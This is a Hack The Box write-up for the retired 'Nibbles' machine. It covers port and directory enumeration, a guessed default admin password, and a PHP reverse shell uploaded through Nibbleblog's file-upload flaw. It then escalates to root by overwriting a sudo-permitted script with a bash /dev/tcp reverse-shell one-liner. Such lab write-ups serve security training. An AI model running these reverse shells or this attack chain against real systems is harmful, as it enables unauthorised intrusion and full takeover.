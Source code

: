 ```yaml
---
title: "HTB: Nibbles Writeup"
date: 2025-08-20 08:00:00 +0000
categories: [CTF, HTB]
tags: [ctf, htb, easy, enumeration, privilege-escalation, web, linux]
author: "Saad Azil"
pin: false
---
```


![Nibbles Box](../assets/images/nibbles/NIBBLES.png)

**OS:** Linux  
**Difficulty:** Easy  
**Machine IP:** 10.10.10.75

Nibbles is a retired box on Hack The Box that provides a great introduction to common enumeration techniques, web application exploitation, and privilege escalation through file misconfigurations.

---

## Enumeration

The first step is to scan the target machine with `nmap` to identify open ports and services.

```bash
nmap -sV -sC -oN nmap_scan 10.10.10.75
```

![Nmap Scan](/assets/images/nibbles/nmap_scan.png)

The scan reveals two open ports:
- **Port 22:** SSH
- **Port 80:** HTTP

Before exploring the web server, I added the machine's IP to my `/etc/hosts` file to access it by its domain name, `nibbles.htb`.

![Domain Name](/assets/images/nibbles/domain_name.png)

Navigating to `http://nibbles.htb` in a browser initially shows a blank page. However, viewing the page's source code reveals a hidden directory: `/nibbleblog/`.

![Source Page](/assets/images/nibbles/source_page.png)

This directory leads to a blog powered by Nibbleblog.

![Blog Page](/assets/images/nibbles/blog_page.png)

To find more hidden files or directories, I used `gobuster`:

```bash
gobuster dir -u http://nibbles.htb/nibbleblog/ -w /usr/share/wordlists/dirb/common.txt
```

![Dir Enum Result](/assets/images/nibbles/dir_enum_result.png)

The `README` file reveals the Nibbleblog version: `v4.0.3`.

![Readme](/assets/images/nibbles/readme.png)

A quick search for this version reveals a critical vulnerability: **Arbitrary File Upload**. To exploit this, we need to gain access to the admin panel. After some guessing, I found the credentials to be:

- **Username:** `admin`
- **Password:** `nibbles`

## Gaining a Foothold

With admin access, I could now exploit the file upload vulnerability. The goal is to upload a reverse shell. I used a common PHP reverse shell script.

1.  **Login** to the admin panel at `http://nibbles.htb/nibbleblog/admin.php`.
2.  Navigate to **Plugins** → **My Image**.
3.  **Upload** the PHP reverse shell.

![Reverse Shell Upload](/assets/images/nibbles/reverse_shell.png)

Once the shell is uploaded, set up a Netcat listener on your local machine:

```bash
nc -lvnp 6666
```

Then, access the uploaded shell at `http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php` to trigger the connection.

![Get Shell](/assets/images/nibbles/get_shell.png)

I upgraded the shell for better stability:

```bash
script /dev/null -c bash
```

![Shell Upgrade](/assets/images/nibbles/shell_upgrade.png)

Now, as the `nibbler` user, I can grab the user flag from the home directory.

![First Flag](/assets/images/nibbles/first_flag.png)

---

## Privilege Escalation

To escalate privileges, I checked for `sudo` permissions:

```bash
sudo -l
```

![sudo](/assets/images/nibbles/sudo-l.png)

The output shows that the `nibbler` user can run `/home/nibbler/personal/stuff/monitor.sh` as `root` without a password.

I found a `personal.zip` file in the user's home directory, which I unzipped to find the `monitor.sh` script.

![Unzip The File](/assets/images/nibbles/the_zip_file.png)

Since I have write permissions on the script, I can overwrite it with a payload to get a root shell. I echoed a new reverse shell command into the script:

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.29/6666 0>&1'" > monitor.sh
```

![overwrote](/assets/images/nibbles/overrideFile.png)

I started another Netcat listener on port `6666` and executed the script with `sudo`:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

![run the reverse shell](/assets/images/nibbles/run_the_reverse_shell.png)

This provides a root shell.

![get the root shell](/assets/images/nibbles/get_root_shell.png)

Finally, I could read the root flag.

![root flag](/assets/images/nibbles/root_flag.png)

And we are done!
